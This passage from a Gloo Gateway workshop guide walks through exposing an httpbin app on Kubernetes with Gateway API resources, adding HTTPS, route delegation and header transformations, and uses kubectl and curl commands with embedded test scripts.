<!--bash
echo -n Waiting for httpbin pods to be ready...
kubectl --context ${CLUSTER1} -n httpbin rollout status deployment
-->
```shell
kubectl --context ${CLUSTER1} -n httpbin get pods
```

Here is the expected output when both Pods are ready:

```,nocopy
NAME                        READY   STATUS    RESTARTS   AGE
httpbin1-7fdbf6498-ms7qt    1/1     Running   0          94s
httpbin2-655777b846-6nrms   1/1     Running   0          93s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["httpbin1", "httpbin2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 6 - Expose the httpbin application through the gateway <a name="lab-6---expose-the-httpbin-application-through-the-gateway-"></a>


The team in charge of the gateway can create a `Gateway` resource and configure an HTTP listener.


```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
kind: Gateway
apiVersion: gateway.networking.k8s.io/v1
metadata:
  name: http
  namespace: gloo-system
spec:
  gatewayClassName: gloo-gateway
  listeners:
  - protocol: HTTP
    port: 80
    name: http
    allowedRoutes:
      namespaces:
        from: All
EOF
```

Note that application teams can create and attach their `HTTPRoute` to this gateway.

An application team can create an `HTTPRoute` resource to expose the `httpbin` app on the gateway.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: http
  hostnames:
    - "httpbin.example.com"
  rules:
    - backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Set the environment variable for the service corresponding to the gateway:

```bash
export PROXY_IP=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -o jsonpath='{.status.loadBalancer.ingress[0].*}')
```

<!--bash
RETRY_COUNT=0
MAX_RETRIES=60
while [[ -z "$PROXY_IP" && $RETRY_COUNT -lt $MAX_RETRIES ]]; do
  echo "Waiting for PROXY_IP to be assigned... Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
  PROXY_IP=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -o jsonpath='{.status.loadBalancer.ingress[0].*}')
  RETRY_COUNT=$((RETRY_COUNT + 1))
  sleep 5
done

# if PROXY_IP is a hostname, resolve it to an IP address
if [[ -n "$PROXY_IP" && $PROXY_IP =~ [a-zA-Z] ]]; then
  while [[ -z "$IP" && $RETRY_COUNT -lt $MAX_RETRIES ]]; do
    echo "Waiting for PROXY_IP to be propagated in DNS... Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
    IP=$(dig +short A "$PROXY_IP" | awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+$/ {print; exit}')
    RETRY_COUNT=$((RETRY_COUNT + 1))
    sleep 5
  done
else
  IP="$PROXY_IP"
fi

if [[ -z "$PROXY_IP" ]]; then
  echo "WARNING: Maximum number of retries reached. PROXY_IP could not be assigned."
else
  export PROXY_IP
  export IP
  echo "PROXY_IP has been assigned: $PROXY_IP"
  echo "IP has been resolved to: $IP"
fi
-->

Configure your hosts file to resolve httpbin.example.com with the IP address of the proxy by executing the following command:

```bash
./scripts/register-domain.sh httpbin.example.com ${PROXY_IP}
```

Try to access the application through HTTP:

```shell
curl http://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "http"
    ],
    "X-Request-Id": [
      "d0998a48-7532-4eeb-ab69-23cef22185cf"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:38917",
  "url": "http://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTP", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `http://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/expose-httpbin/tests/http.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Now, let's secure the access through TLS.
Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store it in a Kubernetes secret running the following command:

```bash
kubectl create --context ${CLUSTER1} -n gloo-system secret tls tls-secret --key tls.key \
   --cert tls.crt
```

Update the `Gateway` resource to add HTTPS listeners.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
kind: Gateway
apiVersion: gateway.networking.k8s.io/v1
metadata:
  name: http
  namespace: gloo-system
spec:
  gatewayClassName: gloo-gateway
  listeners:
  - protocol: HTTPS
    port: 443
    name: https-httpbin
    hostname: httpbin.example.com
    tls:
      mode: Terminate
      certificateRefs:
        - name: tls-secret
          kind: Secret
    allowedRoutes:
      namespaces:
        from: All
  - protocol: HTTPS
    port: 443
    name: https
    tls:
      mode: Terminate
      certificateRefs:
        - name: tls-secret
          kind: Secret
    allowedRoutes:
      namespaces:
        from: All
  - protocol: HTTP
    port: 80
    name: http
    allowedRoutes:
      namespaces:
        from: All
EOF
```

As you can see, we've added 2 new listeners. One for the `httpbin.example.com` hostname and one for all the other hostnames.

We used the same secret to keep things simple, but the goal is to demonstrate we can have different HTTPS listeners.

Update the `HTTPRoute` resource to expose the `httpbin` app through HTTPS.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Try to access the application through HTTPS:

<!--bash
echo -n Wait for up to 2 minutes until the url is ready...
RETRY_COUNT=0
MAX_RETRIES=30
while [[ $RETRY_COUNT -lt $MAX_RETRIES ]]; do
  echo "Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
  ret=`curl -k -s -o /dev/null -w %{http_code} https://httpbin.example.com/get`
  if [ "$ret" -eq "200" ]; then
    break
  else
    echo "Response was: $ret"
    echo "Retrying in 4 seconds..."
  fi
  RETRY_COUNT=$((RETRY_COUNT + 1))
  sleep 4
done
-->

```shell
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8e61c480-6373-4c38-824b-2bfe89e79d0c"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/expose-httpbin/tests/https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

The team in charge of the gateway can create an `HTTPRoute` to automatically redirect HTTP to HTTPS:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: redirect-http-to-https
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: http
  hostnames:
    - "httpbin.example.com"
  rules:
    - filters:
      - type: RequestRedirect
        requestRedirect:
          scheme: https
EOF
```

Try to access the application through HTTP:

```shell
curl -k http://httpbin.example.com/get -L
```

The `-L` option instructs curl to follow the redirect. Without it, you would get a `302` response with the `location` header set to the HTTPS url.

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "2c7454cb-c2f8-428c-9c3b-f51822475327"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("location header correctly set", () => {
  it('Checking text \'location\'', () => helpersHttp.checkHeaders({ host: `http://httpbin.example.com`, path: '/get', expectedHeaders: [{'key': 'location', 'value': `https://httpbin.example.com/get`}]}));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/expose-httpbin/tests/redirect-http-to-https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 7 - Delegate with control <a name="lab-7---delegate-with-control-"></a>

The team in charge of the gateway can create a parent `HTTPRoute` to delegate the routing of a domain or a path prefix (for example) to an application team.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

The team in charge of the httpbin application can now create a child `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the application through HTTPS:

```shell
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "11037632-92c8-43c7-b919-7d7c7217c564"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:51121",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

In the previous example, we've used a simple `/` prefix matcher for both the parent and the child `HTTPRoute`.

But we'll often use the delegation capability to delegate a specific path to an application team.

For example, let's say the team in charge of the gateway wants to delegate the `/status` prefix to the team in charge of the httpbin application.

Let's update the parent `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /status
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

Now, we can update the child `HTTPRoute` to match requests with the `/status/200` path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: Exact
          value: /status/200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

In the child `HTTPRoute` we've indicated the absolute path (which includes the parent path), but instead we can inherite the parent matcher and use a relative path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  rules:
    - matches:
      - path:
          type: Exact
          value: /200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

The team in charge of the httpbin application can also take advantage of the `parentRefs` option to indicate which parent `HTTPRoute` can delegate to its own `HTTPRoute`.

That's why you don't need to use `ReferenceGrant` objects when using delegation.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  parentRefs:
    - name: httpbin
      namespace: gloo-system
      group: gateway.networking.k8s.io
      kind: HTTPRoute
  rules:
    - matches:
      - path:
          type: Exact
          value: /200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Delegation offers another very nice feature. It automatically reorders all the matchers to avoid any short-circuiting.

Let's add a second child `HTTPRoute` which is matching for any request starting with the path `/status`, but sends the requests to the second httpbin service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin-status
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /status
      backendRefs:
        - name: httpbin2
          port: 8000
EOF
```

If the matcher for `/status` is positioned before the matcher for `/status/200`, the latter would be ignored. So, all the requests would be sent to the second httpbin service.

Check you can still access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

You can use the following command to validate the request has still been handled by the first httpbin application.

```bash
kubectl logs --context ${CLUSTER1} -n httpbin -l app=httpbin1 | grep curl | grep 200
```

You should get an output similar to:

```log,nocopy
time="2024-07-22T16:02:51.9508" status=200 method="GET" uri="/status/200" size_bytes=0 duration_ms=0.03 user_agent="curl/7.81.0" client_ip=10.101.0.13:58114
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Check you can now also access the status `/status/201` path:

```shell
curl -k https://httpbin.example.com/status/201 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
201
```

You can use the following command to validate this request has been handled by the second httpbin application.

```bash
kubectl logs --context ${CLUSTER1} -n httpbin -l app=httpbin2 | grep curl | grep 201
```

You should get an output similar to:

```log,nocopy
time="2024-07-22T16:04:53.3189" status=201 method="GET" uri="/status/201" size_bytes=0 duration_ms=0.02 user_agent="curl/7.81.0" client_ip=10.101.0.13:52424
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'201\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/201', retCode: 201 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-201.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Let's delete the latest `HTTPRoute` and apply the original ones:

```bash
kubectl delete --context ${CLUSTER1} -n httpbin httproute httpbin-status

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


## Lab 8 - Modify the requests and responses <a name="lab-8---modify-the-requests-and-responses-"></a>

The Kubernetes Gateway API provides different options to add/update/remove request and response headers.

Let's start with request headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `User-Agent` to `custom`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: RequestHeaderModifier
          requestHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: User-Agent
                value: custom
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Remove` request header added):

```shell
curl -k https://httpbin.example.com/get -H 'To-Remove: whatever'
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Foo": [
      "bar"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "custom"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8595e525-4484-4aaa-8f56-97a96163c333"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "https://httpbin.example.com/get"
}
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request transformations applied", () => {
  it('Checking text \'bar\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'bar', match: true }));
  it('Checking text \'custom\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'custom', match: true }));
  it('Checking text \'To-Remove\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'To-Remove', match: false }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/request-headers.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Another typical use case is to rewrite the hostname or the path before sending the request to the backend.

Update the `HTTPRoute` resource to do the following:
- rewrite the hostname to `httpbin1.com`
- rewrite the path to `/get`

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /publicget
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: URLRewrite
          urlRewrite:
            hostname: httpbin1.com
            path:
              type: ReplacePrefixMatch
              replacePrefixMatch: /get
EOF
```

Try to access the application:

```shell
curl -k https://httpbin.example.com/publicget
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin1.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Envoy-Original-Path": [
      "/publicget"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "1aee27e0-dfab-4b3a-869c-23e3e214440e"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:33021",
  "url": "https://httpbin1.com/get"
}
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request rewrite applied", () => {
  it('Checking text \'httpbin1.com/get\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/publicget', body: 'httpbin1.com/get', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/request-rewrite.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->


Let's now apply transformations to response headers.

Update the `HTTPRoute` resource to do the following:
- add a new header `Foo` with the value `bar`
- update the value of the header `To-Modify` to `newvalue`
- remove the `To-Remove` header

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
      filters:
        - type: ResponseHeaderModifier
          responseHeaderModifier:
            add:
              - name: Foo
                value: bar
            set:
              - name: To-Modify
                value: newvalue
            remove:
              - To-Remove
EOF
```

Try to access the application (with the `To-Modify` and `To-Remove` response headers added):

```shell
curl -k "https://httpbin.example.com/response-headers?to-remove=whatever&to-modify=oldvalue" -I
```

Here is the expected output:

```http,nocopy
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-origin: *
content-type: application/json; charset=utf-8
date: Thu, 20 Jun 2024 17:02:36 GMT
x-envoy-upstream-service-time: 1
server: envoy
x-envoy-decorator-operation: httpbin1.httpbin.svc.cluster.local:8000/*
to-modify: newvalue
foo: bar
```

The transformations have been applied as expected.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("response transformations applied", () => {
  it('Checking \'Foo\' and \'To-Modify\' headers', () => helpersHttp.checkHeaders({ host: `https://httpbin.example.com`, path: '/response-headers?to-remove=whatever&to-modify=oldvalue', expectedHeaders: [{'key': 'foo', 'value': 'bar'}, {'key': 'to-modify', 'value': 'newvalue'}]}));
  it('Checking text \'To-Remove\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/response-headers?to-remove=whatever&to-modify=oldvalue', body: 'To-Remove', match: false }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/response-headers.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

All these transformations are great, but there are many cases where more flexibility is required.

For example, you may want to create a new header from a value of another header.

Gloo Gateway provides some extensions to manipulate requests and responses in a more advanced way.

Let's extract the product name from the `User-Agent` header (getting rid of the product version and comments).

To do that we need to create a Gloo Gateway `RouteOption` object:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                client:
                  header: 'User-Agent'
                  regex: '^([^/\s]+).*'
                  subgroup: 1
              headers:
                x-client:
                  text: "{{ client }}"
EOF
```

Try to access the application:

```shell
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Client": [
      "curl"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "49dd1010-9388-4d50-b4c7-298cec409f3d"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:48727",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("request transformation applied", () => {
  it('Checking text \'X-Client\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{key: 'User-agent', value: 'curl/8.5.0'}], body: 'X-Client', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/transformations/tests/x-client-request-header.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 120000; exit 1; }
-->

As you can see, we've created a new header called `X-Client` by extracting some data from the `User-Agent` header using a regular expression.

And we've targetted the `HTTPRoute` using the `targetRefs` of the `RouteOption` object. With this approach, it applies to all its rules. 

Another nice capability of the Gloo Gateway transformation filter is the capability to add a response header from some information present in the request.

For example, we can add a `X-Request-Id` response header with the same value than the `X-Request-Id` request header. The user could use this information to report an issue he had with a specific request, for example.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    stagedTransformations:
      regular:
        responseTransforms:
        - responseTransformation:
            transformationTemplate:
              headers:
                x-request-id:
                  text: '{{ request_header("X-Request-Id") }}'
EOF
```

This time, we haven't used the `targetRefs` option. Instead, we're going to update the `HTTPRoute` object to target the `RouteOption` object. This way you can apply it to a single rule.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Try to access the application:

```shell
curl -k "https://httpbin.example.com/get" -I
```

Here is the expected output:

```http,nocopy
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-origin: *
date: Tue, 23 Jul 2024 13:13:53 GMT
x-envoy-upstream-service-time: 0
